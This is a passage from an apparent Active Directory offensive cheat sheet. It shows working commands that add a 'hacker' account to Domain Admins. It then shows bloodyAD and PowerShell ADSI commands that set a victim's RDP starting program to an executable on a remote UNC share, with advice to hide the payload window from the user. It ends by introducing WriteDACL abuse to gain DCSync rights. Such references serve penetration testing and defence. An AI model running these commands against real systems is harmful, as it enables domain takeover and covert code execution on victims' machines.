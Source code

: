   ```ps1
  net group "domain admins" hacker /add /domain
  ```

* Linux only:

  ```ps1
  # Using the Samba software suite
  net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
  ```

### GenericWrite and Remote Connection Manager

> Now let’s say you are in an Active Directory environment that still actively uses a Windows Server version that has RCM enabled, or that you are able to enable RCM on a compromised RDSH, what can we actually do ? Well each user object in Active Directory has a tab called ‘Environment’.
>
> This tab includes settings that, among other things, can be used to change what program is started when a user connects over the Remote Desktop Protocol (RDP) to a TS/RDSH in place of the normal graphical environment. The settings in the ‘Starting program’ field basically function like a windows shortcut, allowing you to supply either a local or remote (UNC) path to an executable which is to be started upon connecting to the remote host. During the logon process these values will be queried by the RCM process and run whatever executable is defined. - "ACE to RCE" - @JustinPerdok - July 24, 2020

:warning: The RCM is only active on Terminal Servers/Remote Desktop Session Hosts. The RCM has also been disabled on recent version of Windows (>2016), it requires a registry change to re-enable.

* Windows/Linux:

 ```ps1
 bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
 bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSWorkDirectory -v 'C:\'
 ```

* Windows only:

 ```ps1
 $UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
 $UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
 $UserObject.TerminalServicesWorkDirectory = "C:\"
 $UserObject.SetInfo()
 ```

NOTE: To not alert the user the payload should hide its own process window and spawn the normal graphical environment.

## WriteDACL

To abuse `WriteDacl` to a domain object, you may grant yourself the DcSync privileges. It is possible to add any given account as a replication partner of the domain by applying the following extended rights `Replicating Directory Changes/Replicating Directory Changes All`.

### WriteDACL on Domain
